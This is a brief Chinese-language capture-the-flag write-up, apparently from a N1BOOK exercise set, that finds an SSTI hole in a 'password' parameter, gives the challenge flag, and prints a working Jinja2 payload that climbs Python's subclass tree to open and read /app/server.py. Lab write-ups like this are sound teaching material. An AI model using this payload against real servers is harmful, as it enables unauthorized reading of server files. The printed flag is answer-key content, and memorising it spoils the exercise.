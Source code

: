 ```yaml
---
Author: SuperJason
Date: 2020-12-29
---
```


## flag
`n1book{eddb84d69a421a82}`

## 思路
1. 访问环境时显示password不存在，根据题目要求知道是SSTI注入，需要找到注入点。  
   ![](./images/ssti-1.png) 
2. 猜测注入点为`password`参数，先用get传参`password=123`，`password={{3*3}}`，确实存在模板注入。  
   ![](./images/ssti-2.png)
   ![](./images/ssti-3.png)
3. 使用SSTI payload获得server.py文件内容，其中包含有flag。  
   ```{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['__builtins__']['open']("/app/server.py").read()}}```
   ![](./images/ssti-4.png)

## 总结
SSTI payload见[afr-3](N1BOOK/[第一章%20web入门]afr-3.md)